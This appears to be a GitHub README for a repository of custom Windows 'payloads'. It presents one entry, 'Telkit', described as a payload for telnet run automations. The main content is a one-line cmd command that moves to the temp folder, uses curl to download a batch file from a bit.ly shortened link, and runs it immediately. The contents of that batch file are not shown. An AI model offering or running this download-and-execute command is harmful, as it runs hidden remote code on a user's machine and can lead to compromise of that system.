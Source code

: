 # Payloads
 A collection of my custom payloads for Windows



## Telkit
[Telkit](https://github.com/Jed556/Payloads/blob/main/Telkit/telkit.bat) is a custom payload for telnet run automations.
```cmd /c cd %temp% & curl -Lo r.bat bit.ly/p-tk & r 1```